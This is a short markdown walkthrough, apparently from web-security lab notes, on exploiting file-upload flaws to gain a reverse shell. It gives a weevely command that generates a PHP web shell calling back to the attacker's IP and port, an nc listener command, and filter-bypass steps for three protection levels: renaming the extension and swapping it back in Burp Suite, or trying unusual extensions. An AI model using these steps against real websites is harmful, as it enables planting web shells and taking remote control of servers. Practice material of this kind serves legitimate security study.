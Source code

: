 #### Requirement :
if website allows to upload any type of file like profile picture or something it may be vulnerable

#### Setting up weevely :
in terminal :
```c
weevely generate (password) (shell69.php) --revshell (your_IP) (your_port)
```
#### Executing Exploit :
Upload the file (shell69.php) and try loading the file in your browser by sending it a request
listen to the connection :
```bash
nc -lvnp <your_port>
```
#### Levels of Protection :

<span style="color: green;">Easy</span> : There is no filter so the file gets uploaded

<span style="color: orange;">Medium</span> : There is a filter to check the extension so first change the file extension to ***.jpeg*** and then use Burp Suite, intercept request and  change it back to ***.php***

<span style="color: red;">Hard</span> : The filter used to strong so try to use other weird extensions like [here](https://github.com/imran-parray/Web-Sec-CheatSheet/blob/master/File-Upload-test.txt)

